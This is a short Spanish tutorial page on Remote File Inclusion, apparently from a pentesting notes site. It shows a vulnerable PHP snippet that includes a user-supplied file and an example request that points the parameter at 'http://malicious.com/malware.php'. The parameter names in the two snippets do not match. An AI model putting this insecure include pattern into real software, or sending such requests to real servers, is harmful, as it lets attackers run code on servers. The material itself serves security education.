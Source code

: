 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Remote File Inclusion (RFI)

\
Las vulnerabilidades de inclusión remota de archivos  son similares a las vulnerabilidades LFI. Sin embargo, cuando un atacante explota una vulnerabilidad RFI, en lugar de acceder a un archivo de la víctima, el atacante puede ejecutar código alojado en su propio sistema.

El atacante puede crear un archivo con las siguientes variables,usando el script PHP anterior, un atacante podría realizar la siguiente solicitud HTTP para engañar a la aplicación para que ejecute código malicioso en el lado del servidor:

```php
$file = $_GET['file'];
include($file);
```

```
/?page=http://malicious.com/malware.php
```

<mark style="color:red;">**Recursos**</mark>

{% embed url="https://www.cobalt.io/blog/a-pentesters-guide-to-file-inclusion" %}

{% embed url="https://www.acunetix.com/blog/articles/remote-file-inclusion-rfi/" %}
